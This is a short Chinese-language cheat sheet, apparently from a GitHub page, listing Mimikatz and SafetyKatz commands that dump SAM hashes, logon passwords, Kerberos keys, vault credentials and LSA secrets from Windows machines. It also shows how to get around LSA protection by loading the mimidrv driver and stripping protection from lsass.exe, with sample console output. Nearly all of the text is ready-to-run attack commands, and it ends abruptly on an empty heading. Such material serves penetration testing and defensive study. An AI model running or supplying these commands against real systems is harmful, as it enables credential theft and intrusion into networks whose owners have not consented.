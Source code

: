 #提升权限
privilege::debug

# 本地sam文件
lsadump::sam

#抓取所有登录密码
sekurlsa::logonpasswords

# ekeys
sekurlsa::ekeys

# vault凭据
vault::cred /patch

# 转存lsa的secrets
lsadump::secrets

# 从DC中下载所有哈希
lsadump::lsa /patch
```

```
.\SafetyKatz.exe "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"

.\SafetyKatz.exe "vault::cred /patch" "exit"
```

# 禁用LSA保护

如果启用了 LSA 保护，执行“sekurlsa::logonpasswords”命令会出错。

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

禁用 LSA 保护。我们可以通过执行“！+”将其导入到 Mimikatz

```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

如果执行完上面程序仍然还不可以导出哈希，那么使用下面命令禁用 LSA 保护

```
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```


此文档参考内容见[这里](https://tools.thehacker.recipes/mimikatz/modules)

# SafetyKatz.exe一句话
```
